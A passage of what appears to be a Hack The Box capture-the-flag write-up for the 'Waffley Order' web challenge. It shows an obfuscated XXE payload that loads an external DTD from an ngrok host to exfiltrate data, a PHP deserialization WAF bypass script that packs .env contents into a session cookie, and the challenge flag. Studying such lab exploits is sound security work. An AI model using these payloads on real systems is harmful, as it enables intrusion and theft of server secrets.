<!ENTITY % cont "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x65;&#x78;&#x74;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2d;&#x75;&#x72;&#x6c;&#x2f;&#x74;&#x65;&#x73;&#x74;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x3e;">
%cont;
%ext;
%exf;
]>
<env>
  <debug>1</debug>
</env>
";s:8:"username";s:6:"h4ck3d";}:i:42;}<@/base64>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"food":"WAFfles"}
```

Server response:


```bash
┌──(kali㉿kali)-[~/…/Challenge/Web/web_waffley_order/exploit]
└─$ echo SFRCe3doMF9sM3RfdGgzX2VuYzBkMW5nc18wdXQ/Pz93MDBmLi53bzBmLi53MG9mLi5XQUZmbDNzISF9 | base64 -d
HTB{wh0_l3t_th3_enc0d1ngs_0ut???w00f..wo0f..w0of..WAFfl3s!!}
```

## safe_object WAF bypass (second technique)

After having completed the challenge, thanks to [SSCx7832](https://sys3cybersecurity.netlify.app/htb-waffle-y-order/) I discovered that also the second bypass technique was working and could be used as well to evade the regex checking for malicious PHP objects.

>[!bug] `safe_object` WAF bypass using a parser differential
>The regex is misconfigured and match any sequence starting with `;`, even if it’s contained inside a string. Using those objects it is possible to bypass the regex and deserialize dangerous objects.

The following script creates two different objects, one using the bypass mentioned before and one using the standard way.

*semicolon_bypass.php*

```php
<?php

class XmlParserModel {
        public string $data;
        public array $env;
        public string $username;

        public function __construct($data) {
                $this->data = $data;
        }
}

$serialized_data = serialize([";O:2:" => new XmlParserModel(file_get_contents('.env'))]);
echo $serialized_data."\n\n";
echo serialize([new XmlParserModel(file_get_contents('.env'))]);

echo 'PHPSESSID='.base64_encode($serialized_data);
// a:1:{s:5:";O:2:";O:10:"HelloWorld":0:{}};
//           ^           ^
// match   begin        end
//
// And since subsequent matches are continued from
// the end of the last match no further match is found
```

Providing both objects to the regex we can notice that the regex is misconfigured and match any sequence starting with `;`, even if it’s contained inside a string. 



`;` is used inside serialized objects to separate different properties, but the regex applied does not consider that strings may contain those characters, matching the wrong element and thus, opening another parser differential opportunity.

# Flag

>[!success]
>`HTB{wh0_l3t_th3_enc0d1ngs_0ut???w00f..wo0f..w0of..WAFfl3s!!}`